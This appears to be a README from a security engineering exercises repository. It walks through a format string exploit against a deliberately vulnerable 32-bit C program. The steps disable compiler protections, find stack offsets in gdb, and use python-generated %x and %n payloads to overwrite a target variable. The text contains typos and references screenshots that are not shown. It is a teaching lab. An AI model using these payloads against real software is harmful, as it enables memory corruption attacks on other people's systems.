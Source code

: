 # sec_engineering_exercises

## Format string exploitation example (Section 2.5)
**1. Create a c file like, for example with.**
'''
    vi vuln_s.c
'''
   For file content copy vuln_s.c 

**2. Set environment flags**
'''
    export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"
'''
**3. Compile the file with GCC to create an executable object**
'''
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g
'''
4. Execute the file to ensure its working
'''
   ./vuln test
'''
Should return:

5. Opend program in debugger
'''
    gdb vuln
'''
6. Run program with '%x' whitch will return data from the stack - the hexadecimal value of stack
'''
    run %x
'''
Should return: ![Alt text](image-1.png)
7. Add a brakepoint at line 16 (where the call is made from the main fucntion to the vuln function)
'''
    break 14
'''
8. Run program again
'''
    run %x
'''
Shoudl return: ![Alt text](image-2.png)
9. Check the contect on the %esp registers by running
'''
    x/100x %esp
'''
Should return:
    ![Alt text](image-3.png)
10. So the str is located that 0xbffff789 and the '%x' value (0x4020e3fc) at 0xbffff550
    The distance between str and %x is 0xbffff789 - 0xbffff550 = 569 (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is devisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the 'target' varaible is around 143 positions away from the start of the stack
    We can run a command that will pring us hexadecimal values up 143 places 
'''
11. Try and fail
    Try 143 spaces and see if you can see 414141 (represention of AAAA)
'''
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
'''
Output: ![Alt text](image-4.png)
    Try to increase 143 to 146
'''
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
'''
![Alt text](image-5.png)
    Ok, I can now see the hexadecima representaion of AAAA but it is not at the end of the output, I need to get rid of the '00'

    Try with adding extra padding (BB)
'''
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
'''
   ![Alt text](image-8.png)
Ok, my string is now pointing to the hexadecimal represention of 'AAAA'

12. Replace AAAA with the address of the 'target' variable 
    To find the target variable type: '''p &target '''
    The output should be: ![Alt text](image-7.png)

13. Do the hack 
- Replace the 'AAAA' in the run commant with the address (its read from the back for fun)
- replace last '%x' with '%n' (x is reading and n is writing)
'''
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
'''
Output: ![Alt text](image-9.png)
14. See value of taget chaning
- add break at line 5
- add break at line 15
- run run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on first breakpoint type: print target - the value should be 0 
- type: '''next'''
- type: '''next'''
- print target - the value should be changed
![Alt text](image-10.png)




